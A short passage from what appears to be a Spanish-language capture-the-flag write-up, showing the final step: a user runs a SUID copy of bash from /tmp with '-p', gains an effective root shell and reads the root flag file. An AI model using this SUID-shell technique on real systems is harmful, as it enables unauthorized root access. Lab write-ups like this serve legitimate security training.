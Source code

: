 ```bash
bill@broscience:~/Certs$ /tmp/bashTnr1112 -p
bashTnr1112-5.1# id
uid=1000(bill) gid=1000(bill) euid=0(root) egid=0(root) groups=0(root),1000(bill)
bashTnr1112-5.1# cat /root/root.txt 
2f6eaecb891ab2326e075c368ee20785
```

Y listo, obtenemos una **shell** con **root** :).

----
